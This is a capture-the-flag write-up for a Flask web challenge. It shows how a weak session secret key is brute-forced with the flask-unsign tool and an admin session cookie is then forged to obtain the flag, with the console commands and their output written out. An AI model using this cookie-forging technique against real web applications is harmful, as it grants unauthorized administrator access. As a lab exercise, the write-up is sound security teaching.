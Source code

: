 > # Web - Flask Admin
> > Web - 150pts
>
> The flag is reserved for only those who know the `secret_key`!

## Writeup
The webpage states that we have to be admin to get the flag. From the challenge name we can assume that it is hosted with `flask`.

If we look at our cookies we can see that a session is set for us. The token can be decoded with for example [jwt.io](jwt.io), where we will see that the contents of the cookie is `admin: False`.

Flask sessions are signed with a `secret_key`, but if this secret key is weak anyone can change the contents of their cookie. We can try to bruteforce what the secret key is with [flask-unsign](https://github.com/Paradoxis/Flask-Unsign).

After downloading the tool we can run the following command to find the secret key:
```console
$ flask-unsign --unsign --cookie <your_cookie>
[*] Session decodes to: {'admin': False}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (1920): -----BEGIN PRIVATE KEY-----ECR
[+] Found secret key after 13184 attemptsxxxxxxxxxxxx
'abc123'
```

Knowing that the secret key is `abc123` we can forge the cookie to contain `admin: True`.
```console
$ flask-unsign --sign --cookie "{'admin': True}" --secret "abc123"
eyJhZG1pbiI6dHJ1ZX0.Zb4OoQ.5_xOuoHmBFZ7RDM4-adpHzLOjAo
```

By changing the cookie in our browser to this new one we will be able to see the flag.
```
TD{fr33_4dm1n_f0r_3v3ry0ne}
```
